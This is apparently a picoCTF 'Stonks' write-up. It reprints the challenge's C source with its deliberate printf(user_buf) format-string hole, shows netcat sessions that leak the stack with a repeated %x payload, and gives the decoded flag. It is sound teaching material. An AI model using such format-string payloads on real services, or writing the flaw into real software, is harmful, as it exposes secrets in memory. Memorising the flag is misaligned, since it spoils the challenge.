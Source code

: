 ![Screenshot from 2023-02-19 12-10-17](https://user-images.githubusercontent.com/115702866/219933189-77e90bb0-e75a-4fa1-86f6-4dcaddd90f3f.png)

First we run the program.

```t
aarav@aarav-Inspiron-3584:~$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
asdf;lkj
Buying stonks with token:
asdf;lkj
Portfolio as of Sun Feb 19 06:44:30 UTC 2023


1 shares of JSV
6 shares of NWQ
16 shares of YCAU
6 shares of Z
27 shares of OI
76 shares of ZZON
3 shares of MF
98 shares of SHS
57 shares of UPHS
305 shares of KZ
Goodbye!
```

On giving an input of 1 we are giving the option of buying stocks by entering an api token. Entering a random api token results in the purchase of shares 
of varying quantities.

```t
aarav@aarav-Inspiron-3584:~$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
2

Portfolio as of Sun Feb 19 06:47:08 UTC 2023


You don't own any stonks!
Goodbye!
```
Trying to view my portfolio by entering 1 results in the above message being displayed.
I then checked the source code providedF.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define FLAG_BUFFER 128
#define MAX_SYM_LEN 4

typedef struct Stonks {
	int shares;
	char symbol[MAX_SYM_LEN + 1];
	struct Stonks *next;
} Stonk;

typedef struct Portfolios {
	int money;
	Stonk *head;
} Portfolio;

int view_portfolio(Portfolio *p) {
	if (!p) {
		return 1;
	}
	printf("\nPortfolio as of ");
	fflush(stdout);
	system("date"); // TODO: implement this in C
	fflush(stdout);

	printf("\n\n");
	Stonk *head = p->head;
	if (!head) {
		printf("You don't own any stonks!\n");
	}
	while (head) {
		printf("%d shares of %s\n", head->shares, head->symbol);
		head = head->next;
	}
	return 0;
}

Stonk *pick_symbol_with_AI(int shares) {
	if (shares < 1) {
		return NULL;
	}
	Stonk *stonk = malloc(sizeof(Stonk));
	stonk->shares = shares;

	int AI_symbol_len = (rand() % MAX_SYM_LEN) + 1;
	for (int i = 0; i <= MAX_SYM_LEN; i++) {
		if (i < AI_symbol_len) {
			stonk->symbol[i] = 'A' + (rand() % 26);
		} else {
			stonk->symbol[i] = '\0';
		}
	}

	stonk->next = NULL;

	return stonk;
}

int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}

Portfolio *initialize_portfolio() {
	Portfolio *p = malloc(sizeof(Portfolio));
	p->money = (rand() % 2018) + 1;
	p->head = NULL;
	return p;
}

void free_portfolio(Portfolio *p) {
	Stonk *current = p->head;
	Stonk *next = NULL;
	while (current) {
		next = current->next;
		free(current);
		current = next;
	}
	free(p);
}

int main(int argc, char *argv[])
{
	setbuf(stdout, NULL);
	srand(time(NULL));
	Portfolio *p = initialize_portfolio();
	if (!p) {
		printf("Memory failure\n");
		exit(1);
	}

	int resp = 0;

	printf("Welcome back to the trading app!\n\n");
	printf("What would you like to do?\n");
	printf("1) Buy some stonks!\n");
	printf("2) View my portfolio\n");
	scanf("%d", &resp);

	if (resp == 1) {
		buy_stonks(p);
	} else if (resp == 2) {
		view_portfolio(p);
	}

	free_portfolio(p);
	printf("Goodbye!\n");

	exit(0);
}
```
In the function buy_stonkso we see that is reading the flag(api) from the file 'api' and storing it in the stack 'api_buf'. It then aks the user to input 
their api token which is stored in the stack 'user_buf' and then prints it. After doing some reading I found out that this is a type of string format 
vulnerability. We can exploit this by inputting %x repeatedly to read the api from the stack to extract the hexadecimal values.
```t
aarav@aarav-Inspiron-3584:~$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x 
Buying stonks with token:
989e450804b00080489c3f7f75d80ffffffff1989c160f7f83110f7f75dc70989d1801989e430989e4506f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffe1007d
Portfolio as of Sun Feb 19 07:44:51 UTC 2023


1 shares of THT
1 shares of W
7 shares of QTDX
11 shares of JUN
4 shares of BQB
60 shares of H
14 shares of SR
95 shares of VRI
152 shares of Y
150 shares of SF
1478 shares of KIR
Goodbye!
```
Converting this hexadecimal to ASCII we get text that vaguely resembles the flag. I realised that the bytes are not in the right order as we extracted them from a stack in the top down uproach. After rearranging them in the right order the obtained flag was picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}


